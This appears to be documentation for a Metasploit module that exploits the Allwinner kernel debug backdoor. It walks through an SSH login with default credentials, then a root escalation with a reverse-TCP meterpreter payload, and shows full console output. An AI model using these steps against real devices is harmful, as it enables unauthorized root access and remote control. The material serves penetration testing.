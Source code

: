## Introduction

Vulnerable Allwinner SoC chips: H3, A83T or H8 which rely on Kernel 3.4
Vulnerable OS: all OS images available for Orange Pis,
				 any for FriendlyARM's NanoPi M1,
				 SinoVoip's M2+ and M3,
				 Cuebietech's Cubietruck +
				 Linksprite's pcDuino8 Uno
Exploitation may be possible against Dragon (x10) and Allwinner Android tablets

This module attempts to exploit a debug backdoor privilege escalation in Allwinner SoC based devices. Implements the Allwinner privilege escalation as documented in [Metasploit issue #6869](https://github.com/rapid7/metasploit-framework/issues/6869).  It is a simple debug kernel module that, when "rootmydevice" is echoed to the process, it escalates the shell to root.

## Usage

To use this module, you need a vulnerable device.  An Orange Pi (PC model) running Lubuntu 14.04 v0.8.0 works, but other OSes for the device (as well as other devices) are also vulnerable.

- `use auxiliary/scanner/ssh/ssh_login`

```
msf auxiliary(ssh_login) > set username orangepi
username => orangepi
msf auxiliary(ssh_login) > set password orangepi
password => orangepi
msf auxiliary(ssh_login) > set rhosts 192.168.2.21
rhosts => 192.168.2.21
msf auxiliary(ssh_login) > exploit

[*] 192.168.2.21:22 SSH - Starting bruteforce
[+] 192.168.2.21:22 SSH - Success: 'orangepi:orangepi' 'uid=1001(orangepi) gid=1001(orangepi) groups=1001(orangepi),27(sudo),29(audio) Linux orangepi 3.4.39 #41 SMP PREEMPT Sun Jun 21 13:09:26 HKT 2015 armv7l armv7l armv7l GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (192.168.2.229:33673 -> 192.168.2.21:22) at 2016-05-17 21:55:27 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- `use exploit/multi/local/allwinner_backdoor`

```
msf exploit(allwinner_backdoor) > set verbose true
verbose => true
msf exploit(allwinner_backdoor) > set session 1
session => 1
msf exploit(allwinner_backdoor) > set payload linux/armle/meterpreter/reverse_tcp
payload => linux/armle/meterpreter/reverse_tcp
msf exploit(allwinner_backdoor) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(allwinner_backdoor) > check
[*]  The target appears to be vulnerable.
msf exploit(allwinner_backdoor) > exploit
```

## Successful exploitation:

```
[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (374540 bytes) to 192.168.2.248
[+] Backdoor Found, writing payload to /tmp/odzVx.elf
[*] Max line length is 65537
[*] Writing 284 bytes in 1 chunks of 843 bytes (octal-encoded), using printf
[+] Escalating
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (374540 bytes) to 192.168.2.248
[*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.248:49472) at 2016-09-22 21:56:50 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.2.248
OS           : Ubuntu 14.04 (Linux 3.4.39)
Architecture : armv7l
Meterpreter  : armle/linux
```
